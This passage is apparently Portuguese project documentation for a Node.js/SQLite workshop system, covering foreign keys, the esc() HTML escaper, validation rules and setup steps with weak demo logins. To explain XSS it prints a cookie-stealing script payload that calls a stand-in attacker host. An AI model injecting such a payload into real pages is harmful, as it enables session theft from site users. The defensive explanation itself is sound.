     FOREIGN KEY (cliente_id) REFERENCES clientes(id)
     ```
     Como `conexao.js` executa `PRAGMA foreign_keys = ON`, mesmo que o back-end falhasse em checar, o próprio motor SQLite lançaria uma violação de integridade referencial (`FOREIGN KEY constraint failed`), impedindo fisicamente a inserção.

### 5. Por que a função `esc()` existe? Que ataque ela evita?
- **Resposta Técnica:**  
  A função `esc()` localizada em `comum.js` (linhas 18-22) é um sanitizador de caracteres HTML.  
  Ela evita ataques de **Cross-Site Scripting (XSS)**, principalmente o **XSS Armazenado (Stored/Persistent XSS)**.  
  No sistema, a montagem das tabelas é realizada concatenando strings e inserindo-as diretamente via propriedade `.innerHTML` (ex: `clientes.js` linha 11). Se um usuário cadastrasse um cliente com o nome:
  `<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>`  
  ou ``, ao renderizar a listagem, o navegador do recepcionista executaria esse script malicioso no contexto de sua sessão.  
  A função `esc()` substitui os caracteres especiais por entidades HTML (`&amp;`, `&lt;`, `&gt;`, `&quot;`, `&#39;`). Dessa forma, `<script>` é renderizado na tela inofensivamente como texto literal `&lt;script&gt;`.

### 6. Há regras que existem só no front-end ou só no back-end? Quais?
- **Resposta Técnica:**  
  Sim, a análise comparativa do código-fonte revela assimetrias:
  1. **Regras que existem SÓ no Back-end:**
     - **Unicidade de CPF:** O front-end não checa se o CPF já existe antes de enviar; apenas o back-end executa a busca e validação (`server.js`, linhas 58-60).
     - **Unicidade de Placa:** O front-end não valida se a placa já está cadastrada; a validação ocorre na API (`server.js`, linhas 119-121).
     - **Existência do Veículo e Cliente:** A checagem de integridade contra o banco ocorre exclusivamente no back-end.
     - **Validação de Data Real:** O front-end usa apenas `<input type="date">` (que depende da implementação do browser), mas a validação de datas coerentes e não estouradas via `toISOString()` é exclusiva do back-end (`server.js`, linhas 128-132).
  2. **Regras que existem SÓ no Front-end:**
     - **Formatação de Máscara de CPF:** A apresentação pontuada `000.000.000-00` é feita exclusivamente pela função `formatarCpf()` no front-end (`comum.js`, linhas 24-27). O back-end recebe e armazena apenas os dígitos desformatados.
     - **Formatação de Data Brasileira (DD/MM/AAAA):** A conversão da data ISO para o formato brasileiro é realizada exclusivamente no front-end pela função `formatarData()` (`comum.js`, linha 32).
     - **Agrupamento Mensal Visual:** A separação com barras cinzas contendo o nome do mês e ano é executada exclusivamente pelo front-end (`agendamentos.js`, linhas 13-18).
     - **Limite de Comprimento de Campos na Digitação:** Limitações como `maxlength="14"` no CPF e `maxlength="8"` na placa em `clientes.html` e `veiculos.html` existem no HTML, mas se a requisição vier via API sem esses limites, o back-end apenas limpa ou testa regex, sem travar o tamanho do texto original do input.

---

## 9. Instruções de Execução e Homologação

1. **Pré-requisitos:** Node.js versão 22.13 ou superior (homologado na versão 24.22.0).
2. **Instalação das dependências:**
   ```bash
   cd sistema
   npm install
   ```
3. **Execução do servidor:**
   ```bash
   npm start
   ```
4. **Acesso:** Abra no navegador o endereço `http://localhost:3000`.
5. **Credenciais para teste inicial:**
   - **Administrador:** `admin` / `admin123`
   - **Mecânica Chefe:** `ana.mecanica` / `ana123`
   - **Recepção:** `carlos.recepcao` / `carlos123`
6. **Código comentado:** A versão integral com documentação didática e explicativa de todas as funções, rotas, regras e consultas SQL encontra-se na pasta `sistema_comentado/`.
